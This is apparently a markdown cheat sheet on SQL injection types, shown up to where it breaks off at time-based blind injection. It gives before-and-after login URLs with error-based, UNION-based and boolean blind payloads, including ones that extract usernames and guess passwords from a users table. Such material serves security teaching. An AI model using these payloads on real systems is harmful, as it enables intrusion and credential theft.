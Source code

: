 SQL Injection Types Overview
<hr>

1. In-band SQL Injection
> a. Error-based SQL Injection<br>
> > Method: GET
> >
> > Before Injection:
> >
> >     arduino
> >   	 http://example.com/login?username=admin&password=password
> > 
> >  After Injection:
> >
> >     vbnet
> >   	 http://example.com/login?username=admin'%20AND%201=1;--&password=password
> >
> > > INFO:
> > > 
> > > This injection attempts to generate an error message that can reveal database information.
> <hr>
>
> > b. Union-based SQL Injection
> >	Method: GET
> >
> > Before Injection:
> >
> >     arduino
> >      http://example.com/login?username=admin&password=password
> > After Injection:
> >
> >     vbnet
> >      http://example.com/login?username=admin'%20UNION%20SELECT%20username,%20password%20FROM%20users;--&password=password
> >
> > > INFO:
> > >
> > > This injection combines results from the original query with results from another table.
> <hr>
<br>

2. Inferential SQL Injection (Blind SQL Injection)
>	a. Boolean-based Blind SQL Injection
> > Method: GET
> >
> > Before Injection:
> >
> >     arduino
> >      http://example.com/login?username=admin&password=password
> > After Injection:
> >
> >     bash
> >      http://example.com/login?username=admin'%20AND%20SUBSTRING(password,1,1)='a'--&password=password
> > > INFO:
> > > 
> > > The attacker infers whether the condition is true or false based on the application's response.
> <hr>
>
> b. Time-based Blind SQL Injection
> > Method: GET
> > Before Injection:
> >
